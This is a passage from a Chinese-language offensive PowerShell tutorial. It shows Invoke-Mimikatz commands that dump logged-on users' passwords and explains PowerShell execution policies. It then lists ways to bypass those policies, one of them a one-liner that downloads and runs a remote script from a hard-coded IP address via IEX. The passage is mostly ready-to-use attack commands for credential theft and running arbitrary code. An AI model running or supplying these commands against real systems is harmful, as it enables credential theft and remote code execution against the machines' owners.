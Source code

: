 然后导入`powershell Import-Module .\Invoke-Mimikatz.ps1`

使用命令`Invoke-Mimikatz -Command '"privilege::debug" "sekurlsa::logonPasswords full"'`

或者`Invoke-Mimikatz -DumpCreds`

## 2.3 执行策略

查看执行策略`powershell Get-ExecutionPolicy`

![4ca9e37b7ff3c6730dd7f0919aa9f9d3](images/2020.04-bypass-06/2.png)

powershell有六种执行策略：

`Unrestricted` 权限最高，可以不受限制执行任意脚本

`Restricted` 默认策略，不允许任意脚本的执行

`AllSigned` 所有脚本必须经过签名运行

`RemoteSigned` 本地脚本无限制，但是对来自网络的脚本必须经过签名

`Bypass`  没有任何限制和提示

`Undefined` 没有设置脚本的策略

默认情况下，禁止脚本执行。除非管理员更改执行策略。

`powershell Set-ExecutionPolicy Unrestricted`设置执行策略（需要管理员权限）

![07ccc2c249947cd994c0ef2a1c70ea93](images/2020.04-bypass-06/3.png)

绕过执行策略执行大概有以下几种：

**1.本地读取然后通过管道符运行**
```
powershell Get-Content 1.ps1 | powershell -NoProfile -
```
**2.远程下载并通过IEX运行脚本**
```
powershell -c "IEX(New-Object Net.WebClient).DownloadString('http://47.94.80.129/ps/a.ps1')"
```
**3.Bypass执行策略绕过**
```
powershell -ExecutionPolicy bypass -File ./a.ps1
```
不会显示警告和提示
